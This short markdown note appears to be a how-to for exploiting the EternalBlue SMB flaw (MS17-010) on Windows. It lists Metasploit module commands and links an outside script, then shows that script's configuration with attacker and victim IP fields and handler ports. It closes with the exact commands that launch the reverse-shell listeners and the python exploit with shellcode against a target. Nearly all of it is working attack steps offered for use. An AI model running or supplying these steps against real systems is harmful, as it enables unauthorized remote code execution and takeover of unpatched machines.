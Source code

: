 ## Ethernal blue 

```
msfonsole
use exploit/windows/smb/ms17_010_eternalblue
Set RHOST
Set RPORT
```

### Github

https://github.com/valentinoJones/ReptileHouse-Eternal-Blue

(this script requires impacket install on the machine)

the only thing to do is change the start.sh script
```
# change these values to your attacking IP and 2 ports for 32bit/64bit Architecture
attackerIP=192.168.2.133 # put your ip here*
vulnerableIP=192.168.2.253  # put the victim ip here*
arch_x86_port=4444  # x86 msfconsole multi handler port (optional change)
arch_x64_port=5555 # x64 msfconsole multi handler port (optional change)
```
fire up the script and just follow the on screen instructions after the 7 step generation process.
```
./start.sh
```

You will then need to copy 3 lines from the output 1 is the actual execution of the python eternalblue_exploit7.py exploit and the other 2 are the msfconsole helpers to start up 2 exploit/multi/handlers.. something similar to the following but youll see your specific commands in the output.


```
msfconsole -r "/root/MS17-010/output/EternalBlueX64.rc"
msfconsole -r "/root/MS17-010/output/EternalBlueX86.rc"
python /root/MS17-010/eternalblue_exploit7.py 192.168.*.** /root/MS17-010/bin/sc_all.bin 3
```